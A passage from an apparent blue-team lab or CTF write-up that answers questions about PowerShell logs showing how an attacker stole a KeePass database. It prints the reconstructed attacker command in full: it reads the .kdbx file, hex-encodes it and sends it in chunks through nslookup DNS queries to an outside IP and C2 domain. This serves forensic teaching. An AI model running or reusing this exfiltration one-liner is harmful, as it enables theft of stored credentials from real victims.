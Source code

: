 >What is the name of the exfiltrated file?

![9d9577c40c68824df92aacb0e95cc997.png](/resources/9d9577c40c68824df92aacb0e95cc997.png)

Then we can see that the attacker found the keepass database file which he then exfiltrated it to 167.71.211.113.

```
protected_data.kdbx
```

>What type of file uses the .kdbx file extension?
```
keepass
```

>What is the encoding used during the exfiltration attempt of the sensitive file?

I reconstructed PowerShell command to exfiltrate the keepass database file as shown in the following code block.
```PowerShell
$file='C:\\Users\\j.westcott\\Documents\\protected_data.kdbx'; 
$destination = \"167.71.211.113\"; 
$bytes=[System.IO.File]::ReadAllBytes($file);
$hex = ($bytes|ForEach-Object ToString X2) -join '';
$split = $hex -split '(\\S{50})'; ForEach ($line in $split) { nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";
```

Which we can see that the fille will be converted to hex, split it to 50 characters each then recursively use `nslookup` to make DNS type A query to the C2 domain we found by adding the hex that were spitted to subdomain.

```
hex
```

>What is the tool used for exfiltration?
```
nslookup
```

***
## [Network Traffic Analysis] They got us. Call the bank immediately!
Based on the PowerShell logs investigation, we have seen the full impact of the attack:
- The threat actor was able to read and exfiltrate two potentially sensitive files.
- The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.
